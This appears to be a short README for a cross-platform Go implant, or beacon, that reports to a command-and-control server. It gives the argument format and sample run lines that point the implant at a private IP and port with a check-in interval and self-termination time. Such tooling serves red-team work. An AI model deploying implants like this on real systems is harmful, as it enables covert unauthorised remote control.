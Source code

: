 # Beacon for GHOST

* Cross Platform
* Simple Setup
* Talks to GHOST [C2](https://github.com/bartimus-primed/c2)

### How To

#### Command Format:
#### `implant_executable C2_ADDRESS C2_PORT CALL_INTERVAL DEATH_TIME`
#### supports XXs XXm XXh XXd (seconds, minutes, hours) for the CALL_INTERVAL and DEATH_TIME

run: `go build implant`
* Windows: `.\implant 192.168.253.1 50555 3s 15s`
* Linux: `./implant 192.168.253.1 50555 3s 15s`
* MacOS: haven't tested but should be the same as linux.